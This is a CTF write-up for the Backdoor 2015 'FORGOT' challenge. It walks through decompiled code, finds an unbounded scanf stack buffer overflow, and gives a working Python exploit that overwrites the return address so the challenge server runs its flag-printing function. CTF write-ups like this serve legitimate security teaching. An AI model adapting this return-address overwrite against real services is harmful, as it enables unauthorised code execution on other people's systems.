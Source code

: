 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - FORGOT Writeup"
date: 2015-04-03 02:57:55 +0430
comments: true
categories: ctf backdoor exploit bof
---
```


**Backdoor 2015 FORGOT Writeup**  
**Point = 200**  
**Category = Exploit**  

> Fawkes has been playing around with Finite State Automaton lately. While exploring the concept of implementing regular expressions using FSA he thought of implementing an email-address validator.  
> Recently, Lua started to annoy Fawkes. To this, Fawkes, challenged Lua to a battle of wits. Fawkes promised to reward Lua, only if she manages to transition to a non-reachable state in the FSA he implemented. The replication can be accessed here.

```
$ file forgot
forgot: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
```

```
$ ./forgot 
What is your name?
> AAAAAAAAA

Hi AAAAAAAAA


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> AAAAAAAAAAAAAAAAAA
Dude, you seriously think this is going to work. Where are the fancy @ and [dot], huh?
```

without loosing time opening the binary into IDA shows us several functions but the General function to this functionality is `0x08047AA`. lets see the psuedo-code :
<!--more-->
```
...
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets((char *)&v19, 32, stdin);
  sub_80485DD(&v19);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", sub_8048654);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", &v8);
  for ( i = 0; ; ++i )
 ...
```
This is the interesting part since we have control on inputs. `v19` is a 32 char buffer so no vulnerabilty is there. but what about `__isoc99_scanf("%s", &v8);` ? obviously using *scanf* in such a manner is exteremly dangerous. `v8` also is a 32 char buffer. so it is also another stack buffer overflow like `ECHO`. lets check this condition : 

```
$ python -c 'print "GeeksSpeak\n"+"A"*40+"\n"' > forgot.test
hamidx9@KernelsCallMe:~/ctf/backdoor/public/FORGOT$ cat forgot.test 
GeeksSpeak
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

hamidx9@KernelsCallMe:~/ctf/backdoor/public/FORGOT$ ./forgot < forgot.test 
What is your name?
> 
Hi GeeksSpeak


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
Segmentation fault (core dumped)

```

and `gdb` proves this too. but how should i read the flag? do we need ROP? or something simillar? i started dumping strings in IDA and located these: 

```
.rodata:08048D9F 00000007 C ./flag
.rodata:08048DA6 00000007 C cat %s
```

these strings had been used in `0x080486CC` and finding a call system proves that like ECHO we should just using this function as RET.

by using this piece of code we have: 

```python
#!/usr/bin/python
import struct
import socket
import telnetlib

def readuntil(f, delim='> '):
    data = ''
    while not data.endswith(delim):
        c = f.read(1)
        assert len(c) > 0
        data += c
    return data

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('hack.bckdr.in', 8009))
f = s.makefile('rw', bufsize=0)

readuntil(f)
f.write("A\n")
readuntil(f)
f.write("A"*32+p(0x80486CC)+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

```
$ python sol.py 
[redacted]
*** Connection closed by remote host ***
```

We've got the flag. 200pts.

HAMIDx9
